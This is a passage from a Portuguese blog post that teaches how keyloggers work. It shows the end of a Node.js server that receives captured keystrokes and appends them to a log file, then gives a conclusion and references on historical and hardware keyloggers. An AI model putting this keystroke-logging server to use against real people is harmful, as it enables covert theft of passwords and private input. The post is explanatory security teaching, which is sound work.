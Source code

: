             k = " ";

        // Para maior legibilidade, todas as teclas que não têm
        // somente um caractere, envolvemos em "<" e ">"
        // (por exemplo, <Del> ou <F5>)
        if(k.length > 1)
            k = "<" + k + ">";

        // Adicionamos a string da tecla ao final do arquivo de log
        fs.appendFile("./log.txt", k, function(err) {
            if(err) throw err;
        });
    }
    // E, por fim, retornamos um status de 304 - Not Modified
    res.sendStatus(304);
});

// Terminamos abrindo o servidor na porta 3000
http.listen(3000, function(){ console.log("Listening on *:3000\n") });

{% endhighlight %}
## Conclusão
O tópico de keyloggers é muito mais extenso do que eu poderia tentar cobrir em um post somente. Nesse artigo, vimos somente a ponta do iceberg sobre o assunto, com exemplos bem simples e restritos. Porém, se tudo correu bem, espero que você, querido leitor, tenha adquirido algum conhecimento com isso tudo.

Para aprender mais sobre keyloggers, abaixo estão as referências e links recomendados.

Mas, antes, deixo um fato que você não pediu sobre algo que você não se interessa:

> Avestruzes não têm dentes e, portanto, engolem pedras (chamadas gastrólitos) para ajudar com a digestão. <sup>[[ref 1]](http://www.dinosaurhunter.org/files/app-2007-wings-gastrolith_function_classification.pdf) [[ref 2]](http://www.dinosaurhunter.org/files/wings_2003_-_ostrich_gastrolith_release.pdf) [[ref 3]](https://www.ncbi.nlm.nih.gov/pubmed/17254987)</sup>

## Referências

Todo código utilizado neste artigo está disponível em: [https://github.com/MatheusAvellar/gris-blog](https://github.com/MatheusAvellar/gris-blog)

Caso do incidente com a embaixada americana e suas máquinas de escrever com keyloggers:
- [wikipedia.org](https://en.wikipedia.org/wiki/IBM_Selectric_typewriter#Eavesdropping)
- [arstechnica.com](https://arstechnica.com/information-technology/2015/10/how-soviets-used-ibm-selectric-keyloggers-to-spy-on-us-diplomats/)

Informações sobre o GUNMAN Project:
- [rijmenants.blogspot.com.br](https://rijmenants.blogspot.com.br/2012/11/the-gunman-project.html)
- [nsa.gov (PDF)](https://www.nsa.gov/about/cryptologic-heritage/historical-figures-publications/publications/assets/files/gunman-project/Learning_From_the_Enemy_The_GUNMAN_Project.pdf)

"Detecting Hardware Keyloggers":
- [conference.hackinthebox.org (PDF)](http://conference.hackinthebox.org/hitbsecconf2010kul/materials/D1T1%20-%20Fabian%20Mihailowitsch%20-%20Detecting%20Hardware%20Keyloggers.pdf)
